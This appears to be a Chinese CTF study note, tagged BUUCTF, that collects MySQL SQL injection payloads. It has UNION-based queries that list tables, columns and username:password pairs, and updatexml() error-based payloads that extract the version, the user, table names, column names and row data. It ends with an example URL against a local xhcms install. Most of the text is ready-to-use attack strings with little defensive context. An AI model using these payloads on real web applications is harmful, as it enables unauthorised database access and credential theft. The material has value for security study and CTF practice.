 ```yaml
---
author: 
  name: Zephyr
title: SQL注入
date: 2022-6-20 16:07:01
permalink: /pages/2e1547494524d1be
tags: 
  - buuctf
  - SQL注入
---
```

# SQL注入

爆表名

-1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+

爆列名

-1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+

爆字段

-1' union select 1,group_concat(username,":",password),3 from users --+

## 报错注入

### updatexml()函数

#### updataxml()函数用法

```mysql
UPDATEXML (XML_document, XPath_string, new_value);
```

第一个参数：XML_document是String格式，为XML文档对象的名称

第二个参数：XPath_string (Xpath格式的字符串) 

第三个参数：new_value，String格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点

#### updatexml报错注入用法

##### 爆出数据库的版本信息

```mysql
and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

因为concat()是将其连接成一个字符串，不符合xpath_string格式，会出现格式错误而报错，并会爆出

##### 爆出连接用户

```mysql
and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)
```

##### 爆表

```mysql
and updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0)
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=数据库的十六进制表示 limit 0,1) ,0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=0x7868 limit 0,1) ,0x7e),1)
```

##### 爆列名

```mysql
and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=0x7868 and table_name= 表的十六进制表示 limit 2,1),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=库的十六进制表示 and table_name=表的十六进制表示 limit 2,1),0x7e),1)
```

##### 查数据

```mysql
and updatexml(1,concat(0x7e,(select 列名 from 表名 limit 0,1),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select 列名 from 表名 limit 0,1),0x7e),1)
```

##### 例子

```mysql
http://localhost/xhcms/index.php?r=content&cid=1 and updatexml(1,concat(0x7e,(select title from content limit 0,1),0x7e),1)
```